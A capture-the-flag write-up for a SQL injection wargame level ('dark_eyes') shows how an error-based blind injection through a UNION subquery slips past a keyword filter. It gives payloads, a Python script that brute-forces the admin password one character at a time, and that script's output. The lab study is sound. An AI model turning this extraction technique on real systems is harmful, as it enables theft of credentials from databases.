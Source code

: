 ```yaml
---
custom_edit_url: null
sidebar_position: 22
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/cbd65f64-4c89-44f4-b041-b362993f22dd)

We are provided with the SQL query:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='{$_GET[pw]}'
```

## Filter:

This challenge filters out the following:
- `col`
- `if`
- `case`
- `when`
- `sleep`
- `benchmark`


This level also exits when an error is invoked instead of revealing the error message.

## Error-based Blind SQL Injection

### ERROR: Subquery returned more than 1 value error

In SQL the subquery can only return one value.

```sql
## Valid:
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1) -- -'

## Invalid:
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2) -- -'
```

This is the error that we will be exploiting.

### Revealing the password length

If we provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=1) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=1) -- -'
```

The above SQL query includes the subquery `(SELECT 1 UNION SELECT 2 where id='admin' and length(pw)=1)` which returns two values if the `length(pw)=1` for `id='admin'`. This would invoke an error and cause the challenge to exit.

![2](https://github.com/Kunull/Write-ups/assets/110326359/29f2c0b3-d400-4043-8ce0-5a0c461edf1d)

Since the challenge did not exit, it means that the subquery only returned one value `SELECT 1`. This tells us that the length of the `pw` for `id='admin'` is more than 1.

If we keep increasing the length and provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/fc84a7c5-6e2b-48c9-98e0-3c568896f8ed)

The subquery returned two values `SELECT 1 UNION SELECT 2` because the length of `pw` for `id='admin'` is 8. This caused an error, causing the challenge to exit.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

If we provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='0') -- -
```

The resultant query will be:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='0') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/9b457365-e10b-441b-8118-a7b79af680c8)

Since the challenge did not exit, it means that the subquery only returned one value `SELECT 1`. This tells us that the first character of the `pw` for `id='admin'` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -
```

The resultant query will be:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/e62cdc7f-f0c7-4e9e-9177-e345970208a6)

The subquery returned two values `SELECT 1 UNION SELECT 2` because the first character of `pw` for `id='admin'` is ``5`. This caused an error, causing the challenge to exit.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
5a2f5d3c
```

### Script

```python title="dark_eyes_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'rvrb7p6vumnf7hu5ukb8f70gj8'}
url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"
password_length = 0

for x in range(0, 100):
  payload = f"' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)={x}) -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "prob_dark_eyes" not in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, {index}, 1)='{char}') -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "prob_dark_eyes" not in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\dark_eyes_script.py

[!] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -
[!] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+length%28pw%29%3D8%29+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%275%27%29+--+-
[+] Character at index 1: 5

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 2, 1)='a') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%27a%27%29+--+-
[+] Character at index 2: a

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 3, 1)='2') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%272%27%29+--+-
[+] Character at index 3: 2

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 4, 1)='f') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%27f%27%29+--+-
[+] Character at index 4: f

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 5, 1)='5') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%275%27%29+--+-
[+] Character at index 5: 5

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 6, 1)='d') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%27d%27%29+--+-
[+] Character at index 6: d

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 7, 1)='3') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%273%27%29+--+-
[+] Character at index 7: 3

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 8, 1)='c') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%27c%27%29+--+-
[+] Character at index 8: c

[!] Extracted password: 5a2f5d3c
[!] Final payload: ?pw=5a2f5d3c
```


If we provide the following URI parameter:

```
?pw=5a2f5d3c
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='5a2f5d3c'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/e6a9c9b4-8d34-4c6a-9bf4-3a9538a4cb5d)
